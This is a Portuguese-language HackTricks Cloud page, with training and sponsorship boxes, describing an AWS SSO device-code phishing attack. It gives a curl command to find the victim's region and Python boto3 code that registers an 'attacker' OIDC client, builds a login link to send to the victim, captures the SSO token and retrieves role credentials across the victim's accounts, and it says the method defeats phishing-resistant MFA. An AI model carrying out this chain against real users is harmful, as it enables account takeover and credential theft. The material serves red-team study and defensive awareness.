 # AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

## Phishing de Código de Dispositivo AWS

Proposto inicialmente em [**este post do blog**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), é possível enviar um **link** para um usuário usando AWS SSO que, se o **usuário aceitar**, o atacante poderá obter um **token para se passar pelo usuário** e acessar todos os papéis que o usuário pode acessar no **Identity Center**.

Para realizar este ataque, os requisitos são:

* A vítima precisa usar **Identity Center**
* O atacante deve conhecer o **subdomínio** usado pela vítima `<victimsub>.awsapps.com/start`

Apenas com as informações anteriores, o **atacante poderá enviar um link para o usuário** que, se **aceito**, concederá ao **atacante acesso à conta do usuário AWS**.

### Ataque

1. **Encontrando o subdomínio**

O primeiro passo do atacante é descobrir o subdomínio que a empresa da vítima está usando em seu Identity Center. Isso pode ser feito via **OSINT** ou **adivinhação + BF**, já que a maioria das empresas usará seu nome ou uma variação de seu nome aqui.

Com essa informação, é possível obter a região onde o Identity Center foi configurado:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Gere o link para a vítima & Envie-o**

Execute o seguinte código para gerar um link de login do AWS SSO para que a vítima possa se autenticar.\
Para a demonstração, execute este código em um console Python e não saia dele, pois mais tarde você precisará de alguns objetos para obter o token:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Envie o link gerado para a vítima usando suas incríveis habilidades de engenharia social!

3. **Aguarde até que a vítima o aceite**

Se a vítima já estava **conectada no AWS**, ela só precisará aceitar conceder as permissões; se não estava, precisará **fazer login e então aceitar conceder as permissões**.\
Assim é como o prompt aparece atualmente:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Obtenha o token de acesso SSO**

Se a vítima aceitou o prompt, execute este código para **gerar um token SSO se passando pelo usuário**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
O token de acesso SSO é **válido por 8h**.

5. **Imitar o usuário**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing do MFA inphishável

É interessante saber que o ataque anterior **funciona mesmo se um "MFA inphishável" (webAuth) estiver sendo usado**. Isso ocorre porque o **fluxo de trabalho anterior nunca sai do domínio OAuth utilizado**. Diferente de outros ataques de phishing onde o usuário precisa substituir o domínio de login, no caso, o fluxo de código do dispositivo é preparado para que um **código seja conhecido por um dispositivo** e o usuário pode fazer login mesmo em uma máquina diferente. Se o prompt for aceito, o dispositivo, apenas por **conhecer o código inicial**, será capaz de **recuperar credenciais** para o usuário.

Para mais informações sobre isso [**ver este post**](https://mjg59.dreamwidth.org/62175.html).

### Ferramentas Automáticas

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## Referências

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

